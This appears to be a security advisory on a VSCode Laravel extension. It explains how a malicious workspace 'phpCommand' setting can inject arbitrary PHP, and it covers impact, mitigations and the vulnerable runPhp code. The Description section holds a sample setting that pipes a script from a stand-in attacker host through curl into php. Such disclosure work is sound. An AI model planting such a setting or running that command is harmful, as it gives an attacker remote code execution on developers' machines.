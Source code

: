 # Vulnerabilities

## Vulnerability 1: Arbitrary PHP Command Injection through Configurable PHP Command Execution

### Description:
- The extension executes PHP commands based on the user's defined `LaravelExtraIntellisense.phpCommand` configuration.
- A developer may improperly or carelessly set this configuration in their VSCode `settings.json` or workspace settings.
- If an attacker manipulates or convinces a developer to introduce a malicious setting (e.g., via crafted `settings.json`, shared repositories, or VSCode settings synchronization), arbitrary malicious PHP code will be executed.
- Specifically, a malicious workspace `.vscode/settings.json` could be crafted by the attacker:
  ```json
  "LaravelExtraIntellisense.phpCommand": "php -r \"{code}; exec('curl http://maliciousserver.com/shell.php | php');\""
  ```
- Upon Laravel-related PHP execution (e.g., autocomplete processing), the malicious code is invoked, leading to arbitrary command and remote PHP execution.

### Impact:
- Enables arbitrary command and remote code execution in the developer's environment or Docker container associated with Laravel.
- Could lead directly to data compromise, credential theft, system compromise, and serve as a gateway for lateral movement within internal networks.

### Vulnerability Rank:
Critical

### Currently Implemented Mitigations:
- README "Security Note" explicitly warns users about automatic Laravel application execution and advises temporarily disabling the extension when working with sensitive logic.

### Missing Mitigations:
- No implemented command sanitization or validation process for the `LaravelExtraIntellisense.phpCommand` setting.
- No secure handling or limitations on allowed PHP execution contexts exist.
- No preventive measures against injection or malicious settings introduced via workspace configurations.

### Preconditions:
- Attacker must influence developers' VSCode configuration (`.vscode/settings.json`, global or workspace settings).
- Developer actively uses VSCode extension with auto-triggered PHP execution scenarios.

### Source Code Analysis:
- Location: `..\vscode-laravel-extra-intellisense\src\helpers.ts`
- Relevant vulnerable method (`runPhp`):
  ```typescript
  static async runPhp(code: string, description: string|null = null) : Promise<string> {
      code = code.replace(/\"/g, "\\\"");
      if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
          code = code.replace(/\$/g, "\\$");
          code = code.replace(/\\\\'/g, '\\\\\\\\\'');
          code = code.replace(/\\\\"/g, '\\\\\\\\\"');
      }
      let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
  ```